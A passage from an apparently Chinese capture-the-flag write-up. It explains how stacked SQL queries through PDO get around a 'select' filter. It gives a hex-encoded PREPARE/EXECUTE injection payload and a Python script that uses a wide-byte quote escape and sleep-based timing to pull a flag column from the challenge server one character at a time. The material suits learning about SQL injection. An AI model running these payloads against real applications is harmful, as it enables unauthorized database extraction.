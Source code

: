 但是没有找到有效的sql时间盲注语句,正则来延时也没用,加上select被过滤,

我缺少了一个关键的知识

在学长的提示下,被认为不可以堆叠注入的pdo居然可以(我哪来的认知????)

然后就简单了



```
set @t=0x73656C65637420736C65657028313029;PREPARE sqla from @t;EXECUTE sqla;
```



python脚本

```python
import requests
def sql_inj(sql):
    sql="0x"+sql.encode("hex")
    tpl="set @t=TGT;PREPARE sqla from @t;EXECUTE sqla;".replace("TGT",sql)
    url="http://b0ae8f49254247b8815616a4711941f17f2a145a8a374167.changame.ichunqiu.com/"
    param={
        "id":"\xbf\x27;"+tpl
    }
    requests.get(url,params=param,timeout=2)

#696E666F726D6174696F6E5F736368656D612C6D7973716C2C70646F746573742C706572666F726D616E63655F736368656D61
#table1
#balabala,eihey,fllllll4g,bbb
result=""
count=1+len(result)
while True:
    lock=0
    for i in "0123456789ABCDEF":
        #UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
        try :
            sql="select if(substr(hex(group_concat(COL)),POS,1)='GUESS',sleep(3),0) from TABLE WHERE".replace("COL","fllllll4g")
            sql=sql.replace("GUESS",i).replace("TABLE","table1")
            sql=sql.replace("WHERE","")
            sql=sql.replace("POS",str(count))
            sql_inj(sql)
            print(sql)
                
        except :
            result+=i
            print(result)
            lock=1
            break
    if not lock:
        break
    count+=1

```
